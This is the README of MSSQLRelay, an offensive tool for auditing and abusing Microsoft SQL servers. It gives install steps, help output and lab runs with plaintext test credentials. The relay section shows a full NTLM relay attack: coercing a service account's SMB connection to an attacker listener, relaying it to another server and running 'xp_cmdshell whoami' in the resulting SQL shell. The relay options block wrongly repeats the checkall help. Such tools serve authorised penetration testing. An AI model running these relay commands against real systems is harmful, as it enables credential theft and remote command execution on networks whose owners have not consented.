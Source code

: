 # MSSQLRelay

[![Upload Python Package](https://github.com/compasssecurity/MSSQLRelay/actions/workflows/python-publish.yml/badge.svg)](https://github.com/compasssecurity/MSSQLRelay/actions/workflows/python-publish.yml)

Microsoft SQL Relay is an offensive tool for auditing and abusing Microsoft SQL (MSSQL) services.

## Installation

Install the dev branch of impacket, then install the mssqlrelay package:
```bash
pip3 install git+https://github.com/fortra/impacket.git
pip3 install git+https://github.com/CompassSecurity/mssqlrelay.git
```

## Usage

```bash
$ mssqlrelay       
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

usage: mssqlrelay [-v] [-h] [-debug] {check,checkall,relay} ...

Microsoft SQL Relaying Tool

positional arguments:
  {check,checkall,relay}
                        Action
    check               Check if server enforces encryption
    checkall            Lists MSSQL servers (from LDAP), check if user has access and encryption settings
    relay               NTLM Relay to MS SQL Endpoints

options:
  -v, --version         Show MSSQLRelay's version number and exit
  -h, --help            Show this help message and exit
  -debug                Turn debug output on
```

### Check

Run checks against a single server (target).
Returns information about the server and if encryption is enforced or not.

<details>
<summary><b>Options</b></summary>

```bash
$ mssqlrelay check -h                                                                                                                
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

usage: mssqlrelay check [-h] [-dc-ip ip address] [-target-ip ip address] [-target dns/ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-u username@domain] [-p password] [-hashes [LMHASH:]NTHASH] [-k] [-windows-auth] [-sspi] [-aes hex key] [-no-pass] [-mssql-port port] [-mssql-db db name]

options:
  -h, --help            show this help message and exit

connection options:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -target dns/ip address
                        DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -u username@domain, -username username@domain
                        Username. Format: username@domain
  -p password, -password password
                        Password
  -hashes [LMHASH:]NTHASH
                        NTLM hash, format is [LMHASH:]NTHASH
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -windows-auth         whether or not to use Windows Authentication (default True)
  -sspi                 Use Windows Integrated Authentication (SSPI)
  -aes hex key          AES key to use for Kerberos Authentication (128 or 256 bits)
  -no-pass              Don't ask for password (useful for -k and -sspi)

MSSQL options:
  -mssql-port port      MSSQL port to log in to
  -mssql-db db name     MSSQL database instance (default None)
```
</details>

#### Typical usage
```bash
$ mssqlrelay check -target ws1.child.testlab.local -ns 10.0.1.100 -u tmassie@child.testlab.local -p 'Burp!=B33F' -windows-auth
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

[+] Trying to resolve 'ws1.child.testlab.local' at '10.0.1.100'
[+] Trying to resolve 'CHILD.TESTLAB.LOCAL' at '10.0.1.100'
[*] ws1.child.testlab.local (10.0.1.103:1433)
[*]   -  Version: Microsoft SQL Server 2019 RTM (15.0.2000)
[*]   -  Encryption: not enforced
[*]   -  Login: successful (as TMASSIE)
[*]   -  DB user: guest
[*]   -  Database: master
```

### CheckAll

Run checks against all MSSQL SPNs in the domain. Target is a domain controller.
Returns information about all servers and their configuration.

<details>
<summary><b>Options</b></summary>

```bash
$ mssqlrelay checkall -h
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

usage: mssqlrelay checkall [-h] [-scheme ldap scheme] [-dc-ip ip address] [-target-ip ip address] [-target dns/ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-u username@domain] [-p password] [-hashes [LMHASH:]NTHASH] [-k] [-windows-auth] [-sspi] [-aes hex key] [-no-pass] [-mssql-port port]
                           [-mssql-db db name]

options:
  -h, --help            show this help message and exit

connection options:
  -scheme ldap scheme
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -target dns/ip address
                        DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -u username@domain, -username username@domain
                        Username. Format: username@domain
  -p password, -password password
                        Password
  -hashes [LMHASH:]NTHASH
                        NTLM hash, format is [LMHASH:]NTHASH
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -windows-auth         whether or not to use Windows Authentication (default True)
  -sspi                 Use Windows Integrated Authentication (SSPI)
  -aes hex key          AES key to use for Kerberos Authentication (128 or 256 bits)
  -no-pass              Don't ask for password (useful for -k and -sspi)

MSSQL options:
  -mssql-port port      MSSQL port to log in to
  -mssql-db db name     MSSQL database instance (default None)
```
</details>

#### Typical usage
```bash
$ mssqlrelay checkall -scheme ldap -target child.testlab.local -ns 10.0.1.100 -u tmassie@child.testlab.local -p 'Burp!=B33F' -windows-auth
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

[*] SPNs in domain CHILD.TESTLAB.LOCAL:
[*]   - MSSQLSvc/fs1.child.testlab.local:1433 (running as svc_sql)
[*]   - MSSQLSvc/ws1.child.testlab.local:1433 (running as svc_sql)
[*] Checking found instances ...
[*] fs1.child.testlab.local (10.0.1.101:1433)
[*]   -  Version: Microsoft SQL Server 2019 RTM (15.0.2000)
[*]   -  Encryption: enforced
[*]   -  Login: successful (as TMASSIE)
[*]   -  DB user: guest
[*]   -  Database: master
[*]   -  Privileges: ['xp_dirtree', 'xp_fileexist']
[*] ws1.child.testlab.local (10.0.1.103:1433)
[*]   -  Version: Microsoft SQL Server 2019 RTM (15.0.2000)
[*]   -  Encryption: not enforced
[*]   -  Login: successful (as TMASSIE)
[*]   -  DB user: guest
[*]   -  Database: master
```

### Relay

Connects to victim server (`-target`) as user (`-u`) to trigger SMB connection as service account to attacker (`attacker`) and relay to target server (`relaytarget`).

<details>
<summary><b>Options</b></summary>

```bash
$ mssqlrelay checkall -h
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

usage: mssqlrelay checkall [-h] [-scheme ldap scheme] [-dc-ip ip address] [-target-ip ip address] [-target dns/ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-u username@domain] [-p password] [-hashes [LMHASH:]NTHASH] [-k] [-windows-auth] [-sspi] [-aes hex key] [-no-pass] [-mssql-port port]
                           [-mssql-db db name]

options:
  -h, --help            show this help message and exit

connection options:
  -scheme ldap scheme
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -target dns/ip address
                        DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -u username@domain, -username username@domain
                        Username. Format: username@domain
  -p password, -password password
                        Password
  -hashes [LMHASH:]NTHASH
                        NTLM hash, format is [LMHASH:]NTHASH
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -windows-auth         whether or not to use Windows Authentication (default True)
  -sspi                 Use Windows Integrated Authentication (SSPI)
  -aes hex key          AES key to use for Kerberos Authentication (128 or 256 bits)
  -no-pass              Don't ask for password (useful for -k and -sspi)

MSSQL options:
  -mssql-port port      MSSQL port to log in to
  -mssql-db db name     MSSQL database instance (default None)
```
</details>

#### Typical usage
```bash
$ mssqlrelay relay -target fs1.child.testlab.local -u tmassie@child.testlab.local -p 'Burp!=B33F' ws1.child.testlab.local 10.0.1.15 
MSSQLRelay v1.0 - by Sylvain Heiniger (@sploutchy) / Compass Security (https://www.compass-security.com)

[*] Listening on 0.0.0.0:445
[*] Authenticating to victim 10.0.1.101
[*] Triggering connection to \\10.0.1.15\vKCIsdeX
[!] Press help for extra shell commands
SQL (child\svc_sql  dbo@master)> xp_cmdshell whoami
output          
-------------   
child\svc_sql   

NULL        
```

## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@sploutchy](https://twitter.com/sploutchy).

## Credits

- [Alberto Solino](https://twitter.com/agsolino) and the whole team at impacket
- [Oliver Lyak](https://twitter.com/ly4k_) as I stole the project structure from [certipy](https://github.com/ly4k/Certipy)
- [Dirk-jan Mollema])(https://twitter.com/_dirkjan) for his great contributions to impacket